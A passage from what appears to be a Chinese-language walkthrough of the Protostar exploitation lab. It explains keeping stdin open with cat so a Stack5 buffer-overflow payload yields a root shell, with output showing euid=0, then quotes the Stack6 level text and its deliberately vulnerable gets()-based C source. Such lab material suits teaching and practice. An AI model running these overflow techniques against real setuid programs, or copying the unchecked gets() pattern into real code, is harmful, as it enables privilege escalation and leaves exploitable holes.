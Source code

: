 这就引出了一个问题，我们如何使用`shell`，因为它一创建就退出了。原因是当输入流关闭时，`shell`也会退出。所以我们需要一种方法来保存输入流。

执行一个`shell`，从**Standard input**输入一些命令，**管道符**是把一个程序的**Standard output** 重定位到另一个程序的**Standard inpu**t，一旦程序结束了，管道就会关闭。所以`shell`被执行了，但是没有输入，就会退出。

```bash
user@protostar:~$ python stack5.py | /opt/protostar/bin/stack5
user@protostar:~$
```

当使用`cat`命令但不给他参数时，他会将`stdinput`重定位到`stdoutput`。通过下面的命令就可以获取shell了。

```bash
user@protostar:~$ (python stack5.py;cat) | /opt/protostar/bin/stack5
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
```

---

## Stack6

### About

Stack6 looks at what happens when you have restrictions on the return address.

This level can be done in a couple of ways, such as finding the duplicate of the payload ( *objdump -s* will help with this), or *ret2libc* , or even return orientated programming.

It is strongly suggested you experiment with multiple ways of getting your code to execute here.

This level is at /opt/protostar/bin/stack6

### Source code

{% code title="stack6.c" %}

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
    printf("bzzzt (%p)\n", ret);
    _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```
